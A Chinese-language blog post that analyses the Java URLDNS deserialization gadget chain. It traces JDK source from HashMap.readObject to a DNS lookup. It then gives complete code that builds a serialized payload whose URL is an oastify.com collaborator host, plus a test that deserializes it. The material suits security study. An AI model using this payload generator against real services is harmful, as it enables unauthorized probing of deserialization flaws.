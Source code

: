 # URLDNS链分析






## 1、URLDNS原理

1、 java.util.HashMap重写了readObject方法：

 在反序列化时会调用 hash 函数计算 key 的 hashCode

2、java.net.URL对象的 hashCode 在计算时会调用 getHostAddress 方法

3、getHostAddress方法从而解析域名发出 DNS 请求

**利用链：**

```
Gadget Chain:
  HashMap.readObject()
    HashMap.putVal()
      HashMap.hash()
        URL.hashCode()
```

接下来进行逐一分析：

这个链反序列化的对象是`HashMap`的对象。反序列化`HashMap`的时候会用到这个类自定义的`readObject`：

```java
    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

<img src="https://s1.vika.cn/space/2023/04/10/6addeb48db1c4067b40ff3503667cf21" style="zoom:80%;" />

注意到最后的`putVal(hash(key), key, value, false, false);`，调用了`hash`函数计算哈希值

跟进hash函数：

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

这里调用了键的`hashCode`函数。我们该链中是将其设置成URL类，查看URL类的hashCode函数

```java
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

如果`hashCode==-1`的话，就会重新计算`hashCode`，调用`handler`的`hashCode()`。看一下`handler`：

```java
    transient URLStreamHandler handler;
```

`handler`属性是`URLStreamHandler`类的对象，所以继续跟进`URLStreamHandler`类的`hashCode()`方法：

<img src="https://s1.vika.cn/space/2023/04/10/c040765814824f8f941c1c7f6a09bfce" style="zoom:80%;" />

继续跟进`getHostAddress()`：

<img src="https://s1.vika.cn/space/2023/04/10/37225da516f54e3e9ca869e978687e04" style="zoom: 80%;" />

这⾥ `InetAddress.getByName(host) `的作⽤是根据主机名，获取其IP地址，在⽹络上其实就是⼀次 DNS查询。

## 2、利用

一个很奇妙的点就在于，`HashMap`里面最常用的`put`方法里面居然就有：

```
    public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

理论来说这样使用一次put就会触发一次URLDNS

**那个`key`，即`URL`类的对象的`hashCode`属性值为-1**

考虑到最开始调用`put()`，虽然没有触发`URLDNS`，但是同样调用了`hash()`，导致了传入的`URL`类对象的哈希值被计算了一次，`hashCode`不再是`-1`了，因此还需要再修改它的`hashCode`属性。但是注意这个属性是`private`：

```java
    private int hashCode = -1;
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

因此只能用反射：

```java
        //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        //使用内部方法
        f.setAccessible(true);
        // put 一个值的时候就不会去查询 DNS，避免和刚刚混淆
        f.set(url, 0xdeadbeef);
        hashMap.put(url, "123");
        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        f.set(url, -1);
```

这样就能修改hashCode为-1

故整体代码如下：

```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;


public class URLDNS {
    public static void main(String[] args) throws Exception {

        //漏洞出发点 hashmap，实例化出来
        HashMap<URL, String> hashMap = new HashMap<URL, String>();

        //URL对象传入自己测试的dnslog
        URL url = new URL("http://1tvcx6l0a7bgc6ztu31ydi4zeqki88wx.oastify.com");

        //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");

        //使用内部方法
        f.setAccessible(true);

        // put 一个值的时候就不会去查询 DNS，避免和刚刚混淆
        f.set(url, 0xdeadbeef);
        hashMap.put(url, "123");

        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        f.set(url, -1);

        //序列化成对象，输出出来
        ObjectOutputStream objos = new ObjectOutputStream(new FileOutputStream("./out.bin"));
        objos.writeObject(hashMap);
    }
}
```

运行序列化过程，查看是否有DNS解析记录发现没有，因为在put之前修改了hashCode的值为非-1这样就不会参与解析，避免跟反序列化构成中的解析混淆

我们执行反序列化过程

```java
import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class test {
    public static void main(String[] args) throws Exception {
        //读取目标
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("./out.bin"));
        //反序列化
        ois.readObject();
    }
}
```

看到解析记录

<img src="https://s1.vika.cn/space/2023/04/10/e680d812cf7c47aaa296c63b8ab2a977" style="zoom:80%;" />


---

> 作者: [xunruo](https://xunruo.top)  
> URL: https://xunruo.top/post/a0fd0c84/  

